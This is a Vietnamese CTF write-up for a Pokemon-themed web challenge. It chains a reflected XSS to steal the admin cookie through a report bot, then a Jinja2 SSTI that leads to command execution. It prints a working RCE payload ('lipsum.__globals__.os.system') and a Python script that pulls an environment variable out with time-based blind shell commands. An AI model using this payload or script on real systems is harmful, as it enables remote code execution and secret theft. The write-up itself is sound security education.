





# Description

> Can you catch Lugia? :D
> 
> Author : dunvu0

# TL;DR

Chall là một trang web về pokemon có tính năng đăng kí, đăng nhập và gửi link cho bot

Khi login thành công sẽ được redirect về màn hình chính và tên user sẽ được hiển thị lên màn hình thông qua endpoint `home?name=` và cái này dính lỗ hổng **XSS**

Lợi dụng điều đó để lấy cookie của admin thông qua con bot để truy cập vào admin dashboard

Từ đó ta có thể tải source code backup của server và tìm ra lỗ hổng **SSTI**

Flag được lưu trong biến môi trường và dù kích hoạt được SSTI ta cũng không có cách nào để hiển thị kết quả nên ta viết một script time based để check từng kí tự của flag
là hoàn thành chall

# Rabbit hole

Khi login thành công việc đầu tiên mình làm là **dirsearch** (lúc này chưa thấy lỗ hổng XSS) và thấy một endpoint kì lạ:

`/console`


Đập vào mắt mình là một bảng hiển thị yêu cầu mình nhập pin để có thể truy cập vào phần đằng sau

Sau đấy mình Ctrl u để đọc source xem có gì khai thác được không

```html
<!doctype html>
<html lang=en>
  <head>
    <title>Console // Werkzeug Debugger</title>
    <link rel="stylesheet" href="?__debugger__=yes&amp;cmd=resource&amp;f=style.css">
    <link rel="shortcut icon"
        href="?__debugger__=yes&amp;cmd=resource&amp;f=console.png">
    <script src="?__debugger__=yes&amp;cmd=resource&amp;f=debugger.js"></script>
    <script>
      var CONSOLE_MODE = true,
          EVALEX = true,
          EVALEX_TRUSTED = false,
          SECRET = "h0V5UCkMAwRY5o7jkzEa";
    </script>
  </head>
  <body style="background-color: #fff">
    <div class="debugger">
<h1>Interactive Console</h1>
<div class="explanation">
In this console you can execute Python expressions in the context of the
application.  The initial namespace was created by the debugger automatically.
</div>
<div class="console"><div class="inner">The Console requires JavaScript.</div></div>
      <div class="footer">
        Brought to you by <strong class="arthur">DON'T PANIC</strong>, your
        friendly Werkzeug powered traceback interpreter.
      </div>
    </div>

    <div class="pin-prompt">
      <div class="inner">
        <h3>Console Locked</h3>
        <p>
          The console is locked and needs to be unlocked by entering the PIN.
          You can find the PIN printed out on the standard output of your
          shell that runs the server.
        <form>
          <p>PIN:
            <input type=text name=pin size=14>
            <input type=submit name=btn value="Confirm Pin">
        </form>
      </div>
    </div>
  </body>
</html
```

Mình để ý thấy đoạn này có cái secret gì đó

```js
<script>
    var CONSOLE_MODE = true,
        EVALEX = true,
        EVALEX_TRUSTED = false,
        SECRET = "h0V5UCkMAwRY5o7jkzEa";
</script>
```

Thử nhập vào xem có đúng mã pin là nó không thì kết quả lại không mấy khả quan


Việc tiếp theo mình làm là thử xóa những phần chắn đằng trước đi bằng ublock origin thì có vẻ là đã truy cập vào được phần bên trong


Tiếp tục nghịch cái console một lúc lâu thì cuối cùng mình cũng không thu được kết quả gì có ích cả :v


Vì title của trang là `Console // Werkzeug Debugger` nên sau đó mình có google để tìm xem có CVE nào của thư viện werkzeug mà mình có thể sử dụng không và tất nhiên là không được

Ngồi rất lâu ở đây mình mới quay về trang chính và nhận ra lỗ hổng to đùng nằm ngay trước mắt :v

# Exploit and get flag


Sau khi đăng nhập thành công thì mình được chuyển tới trang này

Sau khi dành một đống thời gian bên `/console` thì khi quay lại đây mình thấy trên url có hiện username của mình ngay trên đấy

`/home?name=user`

Thử thay đổi tham số `name` thì kết quả cũng sẽ được hiển thị ngay trên trang

`/home?name=gaugaugau`



Cái này hiển nhiên là hướng tới việc khai thác lỗ hổng **XSS** do ta có thể gửi link cho bot kiểm tra ở `/report`



Thử viết luôn payload gửi cookie về webhook:

```html

```



Tuyệt ^_^ XSS thành công việc còn lại chỉ là gửi link cho con bot thôi


`session=eyJyb2xlIjoiYWRtaW4iLCJ1c2VybmFtZSI6ImFkbWluIn0.aT-Rng.tr0vKlULRki3w6n0BFsZT3_vav8`

Sử dụng cookie đó mình có được quyền của admin


---

Truy cập vào `admin panel` mình nhận được giao diện như sau



Nhấn vào `Download Backup` mình tải được source code của cả challange



Mình tiến hành khảo sát hai file docker thì thấy flag được lưu trong biến môi trường dựa vào `docker-compose.yaml`

**docker-compose.yaml**

```yaml
version: '3.8'

services:
  web:
    build: .
    ports:
      - "5000:5000"
    environment:
      - ADMIN_PASSWORD=admin123
      - FLAG=KCSC{REDACTED}

```

Tiếp tục khảo sát tới file `app.py` mình phát hiển ra ngay lỗ hổng **SSTI**

**app.py**

```py   
...
@app.route('/admin/report-generator', methods=['GET', 'POST'])
@admin_required
def report_generator():
    if request.method == 'GET':
        return render_template('report_generator.html')
    
    data = request.json
    template_content = data.get('template', '')
    
    if not template_content:
        return jsonify({'error': 'Template content is required'}), 400

    if len(template_content) > 55:
        return jsonify({'error': 'Template too long (max 55 chars)'}), 400

    try:
        render_template_string(template_content)
    except Exception:
        pass
    
    return jsonify({
        'success': True,
        'generated_at': datetime.now().strftime('%Y-%m-%d %H:%M:%S')
    }), 200
...
```

**Endpoint**: `/admin/report-generator`

Sơ lược về cách mà endpoint này hoạt động (giả sử đã có session của admin):

- Nếu có một request **GET** tới endpoint này thì nó sẽ render `report_generator.html'`

- Còn nếu request là **POST** thì nó sẽ tìm tham số `template` trong body

    - Nếu `template` trống hoặc không có hoặc số kí tự > 55 thì thì sẽ ngay lập tức trả về status 400

    - Còn nếu không thì không vì một lý do nào, nó sẽ thử render nội dung trong template thông qua `render_template_string` rồi trả về thời gian nhận request với status 200

Đến đây thì mình chắc chắn ý đồ của tác giả là khai thác lỗ hổng **SSTI** để lấy flag trong biến môi trường rồi

Nhưng mà ở đây xuất hiện hai vấn đề như sau:

- `app.py` đơn giản chỉ thử render nội dung trong template chứ không hề return khiến ta không thể biết được output của nó như thế nào

- `template` chỉ có thể có độ dài tối đa là 55 cho nên mình phải tìm cách để rút ngắn payload lại

Với việc không biết được output thì mình chỉ còn cách đoán mò từng kí tự của flag thông qua **thời gian** và phải tìm cách để tối ưu sao cho payload ngắn nhất có thể

> *Tới đây mình đã thử rất nhiều cách khác nhau để vừa khiến cho server phải chạy chậm đi, vừa tìm cách để tối ưu sao cho độ dài payload ngắn nhất có thể. Thậm chí mình còn vô tình làm instance đơ hẳn đâm ra là mình vừa không thể tiếp tục gửi request vừa không thể reset lại instance do không fetch được =))))*
>
> *Cũng may là sau đó nhờ ban ra đề cấp cứu mà mình mới có thể tiếp tục làm bài <3 e cảm ơn clb ạ <3*

Sau một hồi google ~~gemini~~ thì mình cuối cùng cũng có một payload dùng được:

```
{{lipsum.__globals__.os.system(request.args.c)}}
```

**Phân tích payload**:
- `lipsum.__globals__.os.system()`: bypass sandbox cơ bản của Jinja2

- `request.args.c`: Thay vì tìm cách lồng các lệnh phức tạp vào một payload giới hạn thì ta tận dụng object có sẵn của Jinja2 là `request` để lấy lệnh thật sự từ tham số -> payload ngắn đi rất nhiều và lệnh thật sự cần kích hoạt không bị ràng buộc gì về độ dài

Khi đó tham số `c` chỉ cần là lệnh shell lấy các kí tự của flag và kiểm tra thôi

**script.py**

```py
import requests

URL = "http://67.223.119.69:33083/admin/report-generator"
COOKIE = { "session": "eyJyb2xlIjoiYWRtaW4iLCJ1c2VybmFtZSI6ImFkbWluIn0.aT-mGA.Nf1tkuFt5ASC2t0BA3_i7z_IGNY" }
PAYLOAD = "{{lipsum.__globals__.os.system(request.args.c)}}"

flag = "KCSC{"
            
while flag[-1] != '}':
    print(flag)
    
    index = len(flag) + 1
    
    l = 32
    r = 127
    
    while l < r:
        mid = (l + r) // 2
        
        param = { 
            'c': f'if [ {mid} -ge $(printf "%d" "\'$(echo $FLAG | cut -c {index})") ]; then sleep 3; fi' 
        }
        ok = False
        
        try:
            response = requests.post(
                url=URL,
                cookies=COOKIE,
                json={ 'template': PAYLOAD },
                params=param,
                timeout=2
            )
            
        except requests.exceptions.ReadTimeout:
            ok = True
            
        if ok:
            r = mid
        else:
            l = mid + 1
            
    if l == 127: # khong tim thay
        print("Không tìm thấy nữa :(")
        exit()
    
    flag += chr(l)

print(flag)
```

Vì việc lấy flag bằng time based rất tốn thời gian nên mình tối ưu script tìm bằng tìm kiếm nhị phân

Do đó tham số `c` mà mình chọn là

```bash
if [ {mid} -ge $(printf "%d" "\'$(echo $FLAG | cut -c {index})") ]; then sleep 3; fi
```

Lệnh đơn giản là kiểm tra xem kí tự mình đang kiểm tra có mã ascii lớn hơn hoặc bằng mã ascii của flag tại chỉ số hiện tại không -> nếu có thì cho server ngủ 3s để làm cho request timeout. Còn lại là binary search cơ bản

Chạy script trên ta được

```
...
KCSC{G0tt4_h4ck_'3m
KCSC{G0tt4_h4ck_'3m_
KCSC{G0tt4_h4ck_'3m_4
KCSC{G0tt4_h4ck_'3m_4l
KCSC{G0tt4_h4ck_'3m_4ll
KCSC{G0tt4_h4ck_'3m_4ll!
KCSC{G0tt4_h4ck_'3m_4ll!}
```

**Flag**: `KCSC{G0tt4_h4ck_'3m_4ll!}`
